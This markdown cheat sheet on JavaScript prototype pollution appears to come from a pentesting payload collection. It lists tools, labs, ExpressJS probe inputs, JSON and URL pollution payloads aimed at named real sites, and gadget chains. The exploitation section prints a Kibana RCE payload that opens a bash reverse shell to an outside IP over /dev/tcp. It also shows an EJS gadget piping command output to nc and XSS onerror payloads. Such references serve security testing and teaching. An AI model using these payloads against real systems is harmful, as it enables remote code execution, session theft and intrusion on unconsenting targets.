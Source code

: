 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Labs](#labs)
* [Exploit](#exploit)
    * [Examples](#examples)
    * [Manual Testing](#manual-testing)
    * [Prototype Pollution via JSON input](#prototype-pollution-via-json-input)
    * [Prototype Pollution in URL](#prototype-pollution-in-url)
    * [Prototype Pollution Payloads](#prototype-pollution-payloads)
    * [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
* [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner 


## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## Exploit

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();

// Points to the function "Dog"
myDog.constructor;

// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Manual Testing

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
* Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
* Change the status code: `{ "__proto__":{"status":510}}`


### Prototype Pollution via JSON input

You can access the prototype of any object via the magic property `__proto__`. 
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.


```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```


### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```


### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

* Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
    ```js
    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    ```
* Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
    ```js
    {
        "__proto__": {
            "client": 1,
            "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
        }
    }
    ```
* Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
* Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* Deny of Service


### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```


### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).


## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Keynote | Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - __proto__ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
- [Prototype Pollution Attacks in NodeJS - Olivier Arteau - May 16, 2018](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [Prototype Pollution Attacks in NodeJS applications - Olivier Arteau - October 3, 2018](https://youtu.be/LUsiFV3dsK8)
- [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov - September 29, 2023](https://youtu.be/v5dq80S1WF4)
- [Server side prototype pollution, how to detect and exploit - BitK - February 18, 2023](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - February 15, 2023](https://portswigger.net/research/server-side-prototype-pollution)